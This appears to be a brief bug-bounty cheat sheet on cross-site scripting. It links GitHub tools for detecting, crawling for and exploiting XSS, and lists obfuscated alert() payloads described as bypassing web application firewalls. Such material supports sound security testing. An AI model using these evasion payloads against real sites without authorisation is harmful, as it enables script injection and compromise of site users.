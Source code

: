 > 1. XSS automatic detection and exploit
```
https://github.com/garlic0x1/go-reflect
https://github.com/Encryptor-Sec/XSSearch
https://github.com/theinfosecguy/QuickXSS
```

> 2. DOMXSS Find and Exploit
```
https://github.com/edoardottt/lit-bb-hack-tools/tree/main/doomxss
```
> 3.Crawl entire website for xss parameter
```
https://github.com/thenurhabib/collector
https://github.com/Qianlitp/crawlergo
```
> 4. Testing blind xss via headers using xsshunter
```
https://github.com/muhamadkarkuki/xssHeaders
```
> Some XSS Payloads which bypasses the WAF
```
[%27al\x65rt%27](document.domain);//
window[‘alert’](0)
parent[‘alert’](1)
self[‘alert’](2)
top[‘alert’](3)
this[‘alert’](4)
frames[‘alert’](5)
content[‘alert’](6)
constructor.constructor(“aler”+”t(3)”)();
[].filter.constructor(‘ale’+’rt(4)’)();
top[“al”+”ert”](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top[‘al\x65rt’](9);
foo%27-top[%27al\x65rt%27](document.domain);//
```
> Swagger UI XSS Testing Automation
```
https://github.com/Nightmre/swAPI-XSS
```
